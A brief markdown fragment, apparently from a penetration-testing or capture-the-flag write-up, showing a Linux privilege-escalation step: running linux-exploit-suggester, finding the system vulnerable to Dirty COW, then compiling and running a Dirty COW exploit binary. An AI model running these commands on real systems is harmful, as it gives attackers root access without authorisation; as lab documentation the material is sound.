 #### Linux Exploit Suggester
```
./linux-exploit-suggester.sh
```

The OS is vulnerable to `dirtycow`

#### Compile & Run `DitryCow`
```
gcc -pthread /homeuser/tools/dirtycow/c0w.c -o c0w
./c0w
```